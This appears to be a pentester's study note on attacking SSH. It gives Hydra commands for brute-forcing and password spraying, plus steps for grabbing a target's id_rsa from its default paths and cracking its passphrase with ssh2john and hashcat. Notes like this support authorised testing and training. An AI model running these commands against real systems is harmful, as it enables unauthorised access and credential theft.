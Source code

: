 ```yaml
---
title: SSH
updated: 2025-04-24 14:51:49Z
created: 2025-04-23 11:46:18Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Bruteforcing with Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt -s <target_port> ssh://<target>`

## Password Spraying with Hydra
`hydra -L /usr/share/wordlists/dirb/others/names.txt -p "Pa55w0rd" ssh://<target>`

## SSH Private Key Passphrase Cracking
1. Obtain targets private key. Default locations:
`/home/<user>/.ssh/id_rsa` -- Linux
`C:\Users\<user>\.ssh\id_rsa` -- Windows
2. Make the file readable:
`chmod 600 id_rsa`
3. Convert **id_rsa** using **ssh2john** transformation script
`ssh2john id_rsa > ssh.hash`
4. Remove the filename **id_rsa:** from the begenning of the **ssh.hash** file
5. Determine the correct **hashcat** mode:
`hashcat -h | grep -i "ssh"`
eg. if **\$6$** is at the begenning of the ssh.hash file, then it corresponds with **22921**
6. Create a rule file if necessary (see **06 - Cracking | Hashcat**)



